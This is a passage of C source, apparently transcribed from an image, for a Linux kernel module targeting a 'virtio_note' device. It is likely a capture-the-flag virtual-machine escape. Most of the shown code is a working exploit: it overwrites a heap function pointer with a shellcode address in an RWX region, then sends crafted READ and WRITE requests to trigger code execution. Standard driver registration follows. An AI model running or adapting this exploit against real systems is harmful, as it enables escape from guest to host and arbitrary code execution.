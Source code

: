 ```c

	/* overwrite virtio_note_handle_req on heap with our shellcode address */
	*(uint64_t *)(data+0x10) = (heap_addr + offset);
	// Prepare a WRITE request
	request_buff->idx = 19;      // Example index
	request_buff->addr = virt_to_phys(data); // Example address
	request_buff->op = WRITE;   // Example operation
	send_request(note_info, request_buff);
    // modify function ptr

    // read data 
    request_buff->idx = 32;      // Example index
    request_buff->addr = virt_to_phys(data2); // Example address
    request_buff->op = READ;   // Example operation
    send_request(note_info, request_buff);
    *(uint64_t *)data2 = (rwx_base+shellcode_offset);
    // write data back
    request_buff->idx = 32;      // Example index
    request_buff->addr = virt_to_phys(data2); // Example address
    request_buff->op = WRITE;   // Example operation
    send_request(note_info, request_buff);

 
    printk(KERN_DEBUG "executing shellcode...\n");

    // This one should get us code exec
    request_buff->idx = 19;      // Example index
    request_buff->addr = virt_to_phys(data); // Example address
    request_buff->op = READ;   // Example operation
    send_request(note_info, request_buff);

    kfree(data);
    kfree(request_buff);
    return 0;
}

static void virtio_note_remove(struct virtio_device *vdev)
{
    printk(KERN_INFO "VirtIO Note: Device removed\n");
    // Perform any necessary cleanup
}

static struct virtio_device_id id_table[] = {
    { VIRTIO_ID_NOTE, VIRTIO_DEV_ANY_ID },
    { 0 },
};

static struct virtio_driver virtio_note_driver = {
    .driver.name = KBUILD_MODNAME,
    .driver.owner = THIS_MODULE,
    .id_table = id_table,
    .probe = virtio_note_probe,
    .remove = virtio_note_remove,
};

static int __init virtio_note_init(void)
{
    return register_virtio_driver(&virtio_note_driver);
}

static void __exit virtio_note_exit(void)
{
    unregister_virtio_driver(&virtio_note_driver);
```